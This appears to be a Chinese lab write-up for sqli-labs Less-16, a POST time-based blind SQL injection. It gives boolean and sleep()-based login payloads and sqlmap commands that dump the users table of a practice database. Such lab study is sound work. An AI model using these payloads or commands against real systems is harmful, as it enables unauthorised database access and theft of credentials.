


# Less-16 基于")闭合的post时间盲注

admin") and 1=1# 登录成功
admin") and 1=2# 登录失败
判断关于")闭合
也可以使用布尔盲注
Less-16 的闭合 `")` 比 Less-15 的 `'` 对布尔盲注来说**区分度更差**
admin") and if(1=1,sleep(5),0) #  
成功延时

---

用sqlmap跑
sqlmap -u "http://ip:8848/Less-16/"  --data="uname=admin&passwd=admin"  --batch --string="flag.jpg" --threads=5  --technique=T --level=5
  
...

sqlmap -u "http://ip:8848/Less-16/" --data="uname=admin&passwd=admin" --batch --string="flag.jpg" --threads=5 -D security -T users --dump --level=5 #爆数据 
